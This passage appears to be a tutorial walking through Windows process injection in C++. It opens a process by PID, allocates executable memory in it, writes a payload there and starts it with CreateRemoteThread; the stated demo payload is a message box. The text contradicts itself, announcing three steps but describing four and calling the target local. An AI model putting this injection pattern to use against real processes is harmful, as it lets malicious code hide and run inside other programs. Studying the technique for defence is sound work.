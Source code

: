 We will inject a message box into our local process to demonstrate a proof-of-concept to interact with memory.

The steps to write a message box to memory are outlined below,

1. Allocate local process memory for the message box.
2. Write/copy the message box to allocated memory.
3. Execute the message box from local process memory.

At step one, we can use `OpenProcess` to obtain the handle of the specified process.

```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

At step two, we can use `VirtualAllocEx` to allocate a region of memory with the payload buffer.

```cpp
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can use `WriteProcessMemory` to write the payload to the allocated region of memory.

```cpp
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

At step four, we can use `CreateRemoteThread` to execute our payload from memory.

```cpp
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```